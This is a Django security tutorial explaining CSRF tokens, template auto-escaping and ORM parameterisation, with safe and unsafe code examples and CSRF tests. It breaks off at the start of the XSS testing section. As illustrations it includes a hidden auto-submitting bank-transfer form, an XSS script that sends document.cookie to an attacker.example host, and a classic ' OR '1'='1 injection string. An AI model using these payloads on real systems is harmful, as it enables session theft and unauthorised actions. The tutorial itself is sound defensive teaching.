






# Django Built-in Security: CSRF, XSS, and SQL Injection

> Django provides strong built-in protection against **CSRF**, **XSS**, and **SQL injection**, but these protections work only when we use Django's middleware, template engine, and ORM correctly.

---

# 1. Security Model at a Glance

Django follows an important security principle:

> **Treat all user-controlled data as untrusted.**

User-controlled data can come from:

- Form fields
- Query parameters
- Request headers
- Cookies
- Uploaded files
- API payloads
- Database records originally created by users
- External APIs and webhooks

Django protects different layers using different mechanisms.

| Threat | Main target | Django protection |
|---|---|---|
| CSRF | Server-side state-changing actions | CSRF middleware and CSRF token |
| XSS | Browser and other users | Template auto-escaping |
| SQL injection | Database queries | ORM parameterization |
| Host-header attacks | URL generation and request routing | `ALLOWED_HOSTS` |
| Clickjacking | User interface | `XFrameOptionsMiddleware` |
| Session theft over HTTP | Cookies and authentication | HTTPS and secure cookie settings |

## Security Flow



Django's built-in protection is not one global security switch. Each protection solves a different problem.

---

# 2. CSRF Protection

## 2.1 What Is CSRF?

**CSRF** stands for **Cross-Site Request Forgery**.

A CSRF attack tricks a logged-in user's browser into sending an unwanted request to a trusted application.

For example, assume a user is logged in to:

```text
https://bank.example.com
```

The browser holds the user's session cookie. The user then visits a malicious website containing a hidden form:

```html
<form action="https://bank.example.com/transfer/" method="POST">
    <input type="hidden" name="to_account" value="attacker">
    <input type="hidden" name="amount" value="5000">
</form>

<script>
    document.forms[0].submit();
</script>
```

The browser may automatically attach the bank's session cookie. Without CSRF protection, the bank could treat the request as a valid request from the logged-in user.

## CSRF Attack Flow



## 2.2 What CSRF Protection Actually Verifies

A session cookie proves:

> "This browser has an authenticated session."

A CSRF token helps prove:

> "This state-changing request came from a page trusted by this Django application."

Django's CSRF protection mainly uses:

1. A CSRF secret associated with the browser.
2. A CSRF cookie.
3. A masked token included in the form or request header.
4. `CsrfViewMiddleware`.
5. Origin checking when the browser sends an `Origin` header.
6. Strict referer checking for HTTPS requests when `Origin` is unavailable.

For unsafe HTTP methods, Django compares the submitted token with the expected secret. Invalid or missing tokens normally produce:

```text
HTTP 403 Forbidden
```

## 2.3 Safe and Unsafe HTTP Methods

Django's CSRF protection ignores methods that should not change server state:

```text
GET
HEAD
OPTIONS
TRACE
```

State-changing actions should use methods such as:

```text
POST
PUT
PATCH
DELETE
```

### Correct design

```python
from django.contrib.auth.decorators import login_required
from django.http import HttpResponse
from django.views.decorators.http import require_POST


@login_required
@require_POST
def delete_account(request):
    request.user.delete()
    return HttpResponse(status=204)
```

### Incorrect design

```python
from django.contrib.auth.decorators import login_required
from django.http import HttpResponse


@login_required
def delete_account(request):
    # Dangerous: a GET request changes application state.
    request.user.delete()
    return HttpResponse(status=204)
```

A state-changing GET endpoint can be triggered by a link, browser prefetch, crawler, image URL, or malicious page.

---

## 2.4 CSRF Middleware

A normal Django project includes CSRF middleware in `settings.py`:

```python
MIDDLEWARE = [
    "django.middleware.security.SecurityMiddleware",
    "django.contrib.sessions.middleware.SessionMiddleware",
    "django.middleware.common.CommonMiddleware",
    "django.middleware.csrf.CsrfViewMiddleware",
    "django.contrib.auth.middleware.AuthenticationMiddleware",
    "django.contrib.messages.middleware.MessageMiddleware",
    "django.middleware.clickjacking.XFrameOptionsMiddleware",
]
```

The important entry is:

```python
"django.middleware.csrf.CsrfViewMiddleware"
```

Keep it enabled unless the application has a carefully designed alternative.

---

## 2.5 CSRF Token in Django Templates

For every internal POST form, include ``:

```html
<form method="post" action="">
    

    <label for="display_name">Display name</label>
    <input
        id="display_name"
        name="display_name"
        type="text"
        value="{{ request.user.profile.display_name }}"
    >

    <button type="submit">Save</button>
</form>
```

Django renders a hidden field similar to:

```html
<input
    type="hidden"
    name="csrfmiddlewaretoken"
    value="masked-csrf-token"
>
```

The token should be included in forms that:

- Use `POST`
- Submit to the same Django application
- Perform an authenticated or state-changing action

A CSRF token should not normally be sent to an unrelated external domain.

---

## 2.6 CSRF with JavaScript and `fetch()`

For an AJAX request, send the CSRF token in the request header.

Django's default header name is:

```text
X-CSRFToken
```

### Template

```html


<button id="save-button" type="button">Save</button>

<script>
    const csrfToken = document.querySelector(
        "[name=csrfmiddlewaretoken]"
    ).value;

    document
        .querySelector("#save-button")
        .addEventListener("click", async () => {
            const response = await fetch("/profile/update/", {
                method: "POST",
                headers: {
                    "Content-Type": "application/json",
                    "X-CSRFToken": csrfToken,
                },
                credentials: "same-origin",
                body: JSON.stringify({
                    display_name: "Avadh",
                }),
            });

            if (!response.ok) {
                throw new Error(`Request failed: ${response.status}`);
            }
        });
</script>
```

### Why `credentials: "same-origin"`?

It tells the browser to include cookies for same-origin requests. This is useful when the application uses cookie-based sessions.

For cross-origin requests, cookie and CSRF behavior also depends on:

- CORS configuration
- `SameSite` cookie behavior
- Trusted origins
- Browser rules
- Whether credentials are enabled

---

## 2.7 CSRF with Django REST Framework

The key distinction is the authentication mechanism.

### Session authentication

When DRF uses `SessionAuthentication`, browser requests use Django's session cookie. Unsafe requests require valid CSRF protection.

```python
REST_FRAMEWORK = {
    "DEFAULT_AUTHENTICATION_CLASSES": [
        "rest_framework.authentication.SessionAuthentication",
    ],
}
```

### Bearer token authentication

A bearer token is normally sent explicitly:

```http
Authorization: Bearer <access-token>
```

Traditional CSRF attacks mainly rely on credentials that browsers attach automatically, such as cookies. Therefore, an API using an authorization header instead of cookie-based authentication has a different CSRF risk model.

However:

- XSS may steal tokens stored in JavaScript-accessible storage.
- Cookie-based JWT authentication can still require CSRF protection.
- Authentication design must be evaluated as a complete system.

---

## 2.8 Trusted Origins

When a trusted frontend is hosted on another origin, configure complete origins:

```python
CSRF_TRUSTED_ORIGINS = [
    "https://app.example.com",
    "https://admin.example.com",
]
```

An origin includes:

```text
scheme + hostname + optional port
```

Examples:

```text
https://app.example.com
https://app.example.com:8443
```

Do not add broad trusted origins merely to remove CSRF errors. Trust only origins controlled by your organization.

---

## 2.9 Secure CSRF Settings for Production

```python
CSRF_COOKIE_SECURE = True
CSRF_COOKIE_SAMESITE = "Lax"
SESSION_COOKIE_SECURE = True
SESSION_COOKIE_SAMESITE = "Lax"
```

### `CSRF_COOKIE_SECURE`

```python
CSRF_COOKIE_SECURE = True
```

The browser sends the CSRF cookie only over HTTPS.

### `CSRF_COOKIE_SAMESITE`

```python
CSRF_COOKIE_SAMESITE = "Lax"
```

This restricts when the browser sends the cookie in cross-site contexts.

`SameSite` is a useful defense-in-depth control, but it does not replace Django's CSRF token validation.

### `CSRF_COOKIE_HTTPONLY`

Django allows:

```python
CSRF_COOKIE_HTTPONLY = True
```

However, JavaScript can no longer read the CSRF cookie directly. The token then needs to be rendered into the page using `` or another safe server-rendered mechanism.

---

## 2.10 `csrf_exempt`

Django provides the `csrf_exempt` decorator:

```python
from django.views.decorators.csrf import csrf_exempt


@csrf_exempt
def webhook(request):
    ...
```

This disables Django's CSRF protection for the view.

That can be appropriate for a third-party webhook because the third party cannot usually obtain a browser CSRF token. The endpoint must use a different authentication mechanism, such as:

- HMAC signature verification
- Shared secret
- Public-key signature verification
- Timestamp validation
- Replay protection
- Provider-specific webhook verification

### Secure webhook pattern

```python
import hashlib
import hmac

from django.conf import settings
from django.http import HttpRequest, HttpResponse, HttpResponseForbidden
from django.views.decorators.csrf import csrf_exempt
from django.views.decorators.http import require_POST


def valid_signature(*, payload: bytes, provided_signature: str) -> bool:
    expected_signature = hmac.new(
        key=settings.WEBHOOK_SECRET.encode(),
        msg=payload,
        digestmod=hashlib.sha256,
    ).hexdigest()

    return hmac.compare_digest(expected_signature, provided_signature)


@csrf_exempt
@require_POST
def payment_webhook(request: HttpRequest) -> HttpResponse:
    signature = request.headers.get("X-Webhook-Signature", "")

    if not valid_signature(
        payload=request.body,
        provided_signature=signature,
    ):
        return HttpResponseForbidden("Invalid signature")

    # Process the verified event.
    return HttpResponse(status=204)
```

`csrf_exempt` means:

> "Django's CSRF token is not used here."

It does not mean:

> "This endpoint no longer requires authentication."

---

## 2.11 CSRF Mental Model

```text
Session Cookie
    proves which browser session is making the request

CSRF Token
    proves the state-changing request originated from a trusted application page

Origin/Referer Check
    provides additional validation for the request source

HTTPS
    prevents network attackers from reading or modifying traffic
```

---

# 3. XSS Protection

## 3.1 What Is XSS?

**XSS** stands for **Cross-Site Scripting**.

An XSS attack occurs when untrusted content is interpreted as executable browser code.

Example malicious input:

```html
<script>
    fetch("https://attacker.example/steal?cookie=" + document.cookie);
</script>
```

If an application stores this value and later renders it as HTML, the script may execute in another user's browser.

## Stored XSS Flow



---

## 3.2 Main XSS Types

### Stored XSS

The malicious content is stored in a database and later shown to users.

Example locations:

- Comments
- Product reviews
- User bios
- Support messages
- Admin notes

### Reflected XSS

The malicious content comes from the current request and is immediately returned in the response.

Example:

```text
/search/?query=<script>...</script>
```

### DOM-based XSS

Client-side JavaScript inserts untrusted data into an unsafe browser API.

Example:

```javascript
element.innerHTML = userInput;
```

Django's server-side escaping cannot protect code that becomes unsafe entirely inside browser-side JavaScript.

---

## 3.3 Django Template Auto-Escaping

Django templates enable HTML auto-escaping by default.

Template:

```html
<p>{{ comment.text }}</p>
```

User input:

```html
<script>alert("XSS")</script>
```

Rendered output is escaped:

```html
<p>&lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt;</p>
```

The browser displays the string instead of executing it.

## Escaping Flow

```text
Untrusted value
    "<script>alert('XSS')</script>"
                |
                v
Django template auto-escaping
                |
                v
Escaped HTML
    "&lt;script&gt;alert..."
                |
                v
Browser displays text
```

Django commonly escapes dangerous HTML characters such as:

| Character | Escaped output |
|---|---|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `&` | `&amp;` |
| `"` | `&quot;` |
| `'` | `&#x27;` |

---

## 3.4 Context Matters

HTML escaping is context-specific. A value that is safe in normal HTML text may not automatically be safe in every possible context.

### Safe HTML text context

```html
<p>{{ user_input }}</p>
```

### Quote HTML attributes

```html
<div class="{{ css_class }}">
    Content
</div>
```

Avoid unquoted attributes:

```html
<!-- Unsafe pattern -->
<div class={{ css_class }}>
    Content
</div>
```

A malicious value may inject another attribute into malformed or unquoted markup.

### Avoid constructing JavaScript from template values

```html
<!-- Avoid -->
<script>
    const username = "{{ username }}";
</script>
```

HTML escaping is not the same as JavaScript-string escaping.

Use `json_script` for structured data.

```html
{{ profile_data|json_script:"profile-data" }}

<script>
    const profileData = JSON.parse(
        document.getElementById("profile-data").textContent
    );
</script>
```

View:

```python
from django.shortcuts import render


def profile(request):
    profile_data = {
        "username": request.user.username,
        "roles": ["editor", "reviewer"],
    }

    return render(
        request,
        "accounts/profile.html",
        {"profile_data": profile_data},
    )
```

---

## 3.5 Dangerous Escape Bypasses

### `safe` filter

```html
{{ user_input|safe }}
```

This tells Django not to escape the value.

### `mark_safe()`

```python
from django.utils.safestring import mark_safe


html = mark_safe(user_input)
```

### Disabling auto-escaping

```html

    {{ user_input }}

```

These tools are valid only when the developer can prove that the value is trusted or properly sanitized.

They should not be used simply because escaped HTML "does not look right."

---

## 3.6 Escaping vs Sanitization

These two concepts are different.

### Escaping

Escaping displays HTML characters as text.

Input:

```html
<strong>Hello</strong>
```

Escaped output:

```text
<strong>Hello</strong>
```

The tags appear as text.

### Sanitization

Sanitization allows selected HTML while removing dangerous tags and attributes.

Input:

```html
<strong>Hello</strong>
<script>alert("XSS")</script>
```

Possible sanitized output:

```html
<strong>Hello</strong>
```

Django's template auto-escaping performs escaping. It is not a full HTML sanitizer.

When the product intentionally supports rich text, use a well-maintained HTML sanitization library with an explicit allowlist.

Conceptual example:

```python
allowed_tags = {
    "p",
    "strong",
    "em",
    "ul",
    "ol",
    "li",
    "a",
}

allowed_attributes = {
    "a": {"href", "title"},
}
```

The safest design is to store a structured format such as Markdown or editor JSON and render it through a controlled pipeline, rather than accepting unrestricted HTML.

---

## 3.7 Safe HTML Construction in Python

When generating a small HTML fragment, use `format_html()`:

```python
from django.utils.html import format_html


def user_link(user):
    return format_html(
        '<a href="/users/{}/">{}</a>',
        user.pk,
        user.get_full_name(),
    )
```

`format_html()` escapes interpolated arguments while keeping the format string as HTML.

Avoid:

```python
from django.utils.safestring import mark_safe


def user_link(user):
    return mark_safe(
        f'<a href="/users/{user.pk}/">{user.get_full_name()}</a>'
    )
```

In the second example, an unsafe user name can become part of executable HTML.

---

## 3.8 XSS in Client-Side JavaScript

Django templates may render the initial page safely, but frontend JavaScript can reintroduce XSS.

### Unsafe

```javascript
result.innerHTML = apiResponse.message;
```

### Safer for plain text

```javascript
result.textContent = apiResponse.message;
```

### Unsafe URL construction

```javascript
link.setAttribute("href", userProvidedUrl);
```

The application should validate allowed schemes, for example:

```text
https:
http:
```

Reject dangerous schemes such as:

```text
javascript:
```

The exact allowlist depends on the feature.

---

## 3.9 Content Security Policy

Django 6.0 includes built-in Content Security Policy support.

CSP provides an additional browser-enforced layer that restricts which scripts, styles, frames, and other resources can load.

A simplified policy concept:

```text
default-src 'self';
script-src 'self';
object-src 'none';
frame-ancestors 'none';
```

CSP can reduce the impact of some XSS vulnerabilities, but it does not replace:

- Output escaping
- HTML sanitization
- Safe DOM APIs
- Input validation
- Secure frontend architecture

Think of CSP as defense in depth.

---

## 3.10 XSS Mental Model

```text
Untrusted data entering the application
                |
                v
Store as ordinary data
                |
                v
Escape for the output context
                |
                v
Browser treats it as data, not code
```

The main rule is:

> Do not convert untrusted data into trusted HTML.

---

# 4. SQL Injection Protection

## 4.1 What Is SQL Injection?

SQL injection occurs when untrusted input changes the structure of a SQL query.

Assume an application constructs SQL like this:

```python
username = request.GET["username"]

query = (
    "SELECT * FROM auth_user "
    f"WHERE username = '{username}'"
)
```

An attacker may submit:

```text
' OR '1'='1
```

The final SQL becomes conceptually:

```sql
SELECT *
FROM auth_user
WHERE username = '' OR '1'='1';
```

The user input has become executable SQL syntax.

## SQL Injection Flow



---

## 4.2 Why Django ORM Is Usually Safe

Django QuerySets use parameterized queries.

```python
username = request.GET.get("username", "")

user = User.objects.filter(username=username).first()
```

Conceptually, the database receives:

```sql
SELECT *
FROM auth_user
WHERE username = %s;
```

And separately:

```text
parameters = ["' OR '1'='1"]
```

The database driver treats the value as data rather than SQL code.

## Parameterization Model

```text
SQL structure:
    SELECT * FROM auth_user WHERE username = %s

Parameter:
    "' OR '1'='1"

Database interpretation:
    Find a username literally equal to "' OR '1'='1"
```

---

## 4.3 Safe ORM Examples

### Filtering

```python
email = request.GET.get("email", "")

users = User.objects.filter(email=email)
```

### Searching

```python
query = request.GET.get("q", "").strip()

articles = Article.objects.filter(title__icontains=query)
```

### Updating

```python
profile.display_name = request.POST["display_name"]
profile.save(update_fields=["display_name"])
```

### Creating

```python
Feedback.objects.create(
    user=request.user,
    message=request.POST["message"],
)
```

Django's ORM safely parameterizes field values in normal query operations.

---

## 4.4 Safe Raw SQL

Sometimes raw SQL is necessary. Use placeholders and pass values separately.

```python
from django.db import connection


def find_active_user(email: str):
    with connection.cursor() as cursor:
        cursor.execute(
            """
            SELECT id, email
            FROM auth_user
            WHERE email = %s
              AND is_active = %s
            """,
            [email, True],
        )

        return cursor.fetchone()
```

Important rules:

- Use `%s` placeholders for values.
- Pass parameters as the second argument.
- Do not put quotes around `%s`.
- Do not use f-strings.
- Do not use `.format()`.
- Do not use `%` string interpolation.

### Safe `raw()`

```python
email = request.GET.get("email", "")

users = User.objects.raw(
    """
    SELECT *
    FROM auth_user
    WHERE email = %s
    """,
    [email],
)
```

---

## 4.5 Unsafe Raw SQL

### f-string interpolation

```python
email = request.GET["email"]

User.objects.raw(
    f"SELECT * FROM auth_user WHERE email = '{email}'"
)
```

### `.format()`

```python
query = (
    "SELECT * FROM auth_user WHERE email = '{}'"
).format(email)
```

### `%` interpolation

```python
query = (
    "SELECT * FROM auth_user WHERE email = '%s'"
    % email
)
```

All three insert untrusted input into the SQL structure before the database driver can safely parameterize it.

---

## 4.6 Placeholders Must Not Be Quoted

### Correct

```python
cursor.execute(
    "SELECT * FROM auth_user WHERE email = %s",
    [email],
)
```

### Incorrect

```python
cursor.execute(
    "SELECT * FROM auth_user WHERE email = '%s'",
    [email],
)
```

The database driver is responsible for quoting and escaping the value.

---

## 4.7 Dynamic Identifiers Need an Allowlist

Query parameters can safely represent values, but they normally cannot represent SQL identifiers such as:

- Table names
- Column names
- `ASC` or `DESC`
- SQL operators
- SQL keywords

Suppose an API supports sorting:

```text
/users/?sort=email
```

Do not directly inject the requested field into raw SQL.

### Safe ORM allowlist

```python
ALLOWED_SORT_FIELDS = {
    "name": "first_name",
    "email": "email",
    "created": "date_joined",
}

requested_sort = request.GET.get("sort", "created")
sort_field = ALLOWED_SORT_FIELDS.get(requested_sort, "date_joined")

users = User.objects.order_by(sort_field)
```

For descending sorting:

```python
ALLOWED_SORT_FIELDS = {
    "name": "first_name",
    "email": "email",
    "created": "date_joined",
}

requested_sort = request.GET.get("sort", "created")
requested_direction = request.GET.get("direction", "asc")

field = ALLOWED_SORT_FIELDS.get(requested_sort, "date_joined")
prefix = "-" if requested_direction == "desc" else ""

users = User.objects.order_by(f"{prefix}{field}")
```

The final query component is generated only from known server-side values.

---

## 4.8 `RawSQL` and Custom Expressions

Django provides advanced tools such as:

```python
RawSQL
Func
extra()
```

When an expression accepts a separate `params` argument, use it.

```python
from django.db.models.expressions import RawSQL


products = Product.objects.annotate(
    normalized_score=RawSQL(
        "(score * %s)",
        [1.25],
    )
)
```

Do not interpolate user-controlled values into the raw SQL string.

Prefer built-in ORM expressions when available:

```python
from django.db.models import F


products = Product.objects.annotate(
    normalized_score=F("score") * 1.25
)
```

The ORM version is generally easier to maintain and less error-prone.

---

## 4.9 Input Validation Still Matters

Parameterized SQL prevents SQL injection. It does not ensure that the input is valid for the business requirement.

Example:

```python
page_size = int(request.GET.get("page_size", "20"))
```

Even though this may not create SQL injection, an attacker could request an excessive value.

Use validation:

```python
from django.core.exceptions import ValidationError


def parse_page_size(raw_value: str) -> int:
    try:
        value = int(raw_value)
    except ValueError as exc:
        raise ValidationError("Page size must be an integer.") from exc

    if not 1 <= value <= 100:
        raise ValidationError("Page size must be between 1 and 100.")

    return value
```

Security requires both:

```text
Safe query construction
+
Business and resource validation
```

---

## 4.10 Least-Privilege Database Access

Even with safe queries, the production database account should have only the permissions required by the application.

For example, the application database user usually should not be able to:

- Create database superusers
- Read unrelated databases
- Modify database server configuration
- Install arbitrary extensions
- Access operating-system files

This limits damage if another vulnerability is discovered.

---

# 5. How the Three Attacks Differ

| Aspect | CSRF | XSS | SQL Injection |
|---|---|---|---|
| Full name | Cross-Site Request Forgery | Cross-Site Scripting | SQL Injection |
| Main target | Authenticated server action | User's browser | Database |
| Attacker abuses | Browser's automatic credentials | Unsafe HTML or JavaScript output | Unsafe SQL construction |
| Typical result | Unauthorized action | Script execution in victim browser | Data read, change, or deletion |
| Django's main defense | CSRF middleware and token | Template auto-escaping | ORM parameterization |
| Common bypass | `csrf_exempt` without alternative verification | `safe`, `mark_safe`, `innerHTML` | f-strings or string formatting in SQL |
| Additional defense | HTTPS, Origin checks, `SameSite` | CSP, sanitization, safe DOM APIs | Allowlisting and least privilege |

## One Application, Three Security Boundaries



### Easy memory rule

```text
CSRF  -> Can this browser perform this action?
XSS   -> Will this data execute as browser code?
SQLi  -> Can this input modify the SQL query structure?
```

---

# 6. Secure End-to-End Example

This example creates comments safely.

## 6.1 Model

```python
from django.conf import settings
from django.db import models


class Comment(models.Model):
    author = models.ForeignKey(
        settings.AUTH_USER_MODEL,
        on_delete=models.CASCADE,
    )
    body = models.TextField(max_length=2000)
    created_at = models.DateTimeField(auto_now_add=True)

    class Meta:
        ordering = ["-created_at"]

    def __str__(self) -> str:
        return f"Comment {self.pk} by {self.author_id}"
```

---

## 6.2 Form Validation

```python
from django import forms

from .models import Comment


class CommentForm(forms.ModelForm):
    class Meta:
        model = Comment
        fields = ["body"]
        widgets = {
            "body": forms.Textarea(
                attrs={
                    "rows": 5,
                    "maxlength": 2000,
                }
            )
        }

    def clean_body(self) -> str:
        body = self.cleaned_data["body"].strip()

        if not body:
            raise forms.ValidationError(
                "Comment cannot be empty."
            )

        return body
```

Form validation improves data quality. XSS protection still comes from safe output handling.

---

## 6.3 View

```python
from django.contrib.auth.decorators import login_required
from django.shortcuts import redirect, render
from django.views.decorators.http import require_http_methods

from .forms import CommentForm
from .models import Comment


@login_required
@require_http_methods(["GET", "POST"])
def comment_list(request):
    if request.method == "POST":
        form = CommentForm(request.POST)

        if form.is_valid():
            comment = form.save(commit=False)
            comment.author = request.user
            comment.save()

            return redirect("comment-list")
    else:
        form = CommentForm()

    comments = Comment.objects.select_related("author")

    return render(
        request,
        "comments/comment_list.html",
        {
            "form": form,
            "comments": comments,
        },
    )
```

Security behavior:

- `login_required` requires authentication.
- POST triggers Django's CSRF middleware.
- `ModelForm` validates the input.
- ORM operations use parameterized queries.
- The template will escape comment text.

---

## 6.4 Template

```html
<!doctype html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <title>Comments</title>
</head>
<body>
    <main>
        <h1>Comments</h1>

        <form method="post">
            
            {{ form.as_p }}
            <button type="submit">Add comment</button>
        </form>

        <section aria-label="Comment list">
            
                <article>
                    <header>
                        <strong>{{ comment.author.username }}</strong>
                        <time datetime="{{ comment.created_at|date:'c' }}">
                            {{ comment.created_at }}
                        </time>
                    </header>

                    <p>{{ comment.body }}</p>
                </article>
            
                <p>No comments yet.</p>
            
        </section>
    </main>
</body>
</html>
```

Security behavior:

```text

    protects the POST request from CSRF

{{ comment.body }}
    is HTML-escaped by default to reduce XSS risk

Comment.objects...
    uses Django ORM parameterization to prevent SQL injection
```

---

## 6.5 What Happens with Malicious Input?

Attacker submits:

```html
<script>alert("XSS")</script>
```

Django may store that exact text in the database. Storage itself is not necessarily the vulnerability.

The important part is output:

```html
<p>{{ comment.body }}</p>
```

Django escapes it, so the browser displays the text rather than executing it.

The SQL insert is also parameterized, so the content cannot modify the SQL statement.

---

# 7. Security Testing

Security controls should be tested like normal application behavior.

## 7.1 Testing CSRF Rejection

Django's default test client does not enforce CSRF checks unless requested.

```python
from django.test import Client, TestCase
from django.urls import reverse


class CommentSecurityTests(TestCase):
    def setUp(self):
        self.client = Client(enforce_csrf_checks=True)

    def test_post_without_csrf_token_is_rejected(self):
        response = self.client.post(
            reverse("comment-list"),
            {"body": "Test comment"},
        )

        self.assertEqual(response.status_code, 403)
```

For an authenticated view, create and log in a user before posting.

---

## 7.2 Testing XSS Escaping

```python
